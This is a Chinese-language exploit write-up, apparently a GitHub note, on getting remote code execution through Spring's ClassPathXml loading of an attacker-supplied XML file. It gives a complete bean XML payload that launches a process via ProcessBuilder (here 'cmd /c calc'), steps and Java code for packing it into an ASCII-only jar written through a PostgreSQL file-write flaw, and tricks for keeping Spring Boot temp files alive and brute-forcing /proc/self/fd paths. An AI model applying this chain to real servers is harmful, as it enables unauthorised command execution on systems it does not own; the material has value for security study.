






# ClassPathXml

这里的利用关键是，能不能上传xml文件到可控路径。

## PostgreSql写入ascii.jar!/exp.xml

首先，需要明白有这么几个事实

1、jar文件本质就是zip

2、zip文件在文件前后添加脏字符，不影响文件本身

3、xml文件前后不能出现脏字符

4、ClassPathXml读取文件时，文件不能出现非ascii字符。jar:file:///D:/ascii.jar!/1.xml时，ascii.jar中也不能出现非ascii字符

5、postgresql通过漏洞写文件时，前后会出现脏字符


接下来讲漏洞利用。

首先创建exp.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value>calc</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

接下来利用https://github.com/c0ny1/ascii-jar 项目的ascii-jar-2.py，制作全都是ascii范围内的jar包。注意PADDING_DATA要放到末尾，因为xml文件开头是固定的。



制作出来的jar包，范围都在00~7F内：



接下来对jar包进行URL编码，这里使用Java脚本，如果用python的话，一定要确定自己编码后的格式正确：

```java
public class UrlEncodeFile {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("./ascii.jar"));
        String encode = URLEncoder.encode(new String(bytes), "utf-8");
        System.out.println(encode);
    }
}
```

然后通过postgre漏洞写文件：



最后通过ClassPathXml读取：




## springboot临时文件法

### 一个请求

发送一个请求，其中带有临时文件和xml加载路径。




### 异步请求

先发送临时文件请求，主要目标是这个临时文件要长期存活。

可以通过修改Content-Length + 删掉 boundary  + 大段空格 实现。




然后再正常发送另一个利用请求即可

### 爆破fd

通过 file:///proc/self/fd/xxx 去访问产生的临时文件，这里解释一下。

一般获取一个进程的信息时，是通过 /proc/pid 的方式去获取。但是一个进程如果想获取自身的信息，再去填pid就显得多此一举。所以提供了 /proc/self 的方式，允许进程直接访问自身信息。所以，对应不同进程来说，/proc/self 的结果是不一样的。而fd目录是file descriptor，文件描述符，该目录存储了指向当前进程操作过的文件的软连接，以数字0开始命名，通过它可以获取进程中有关的配置文件等。所以可以通过遍历 fd 的方式去加载临时文件。

顺便补充一下 /proc 里面的其他目录。

/proc/pid/cmdline存储了启动该进程的shell命令

cwd是一个软连接，指向进程运行目录

environ文件存储了进程的环境变量

详细请搜索：Linux 进程信息目录 /proc

## 其他能够实现文件上传的

能找到的文件上传点。


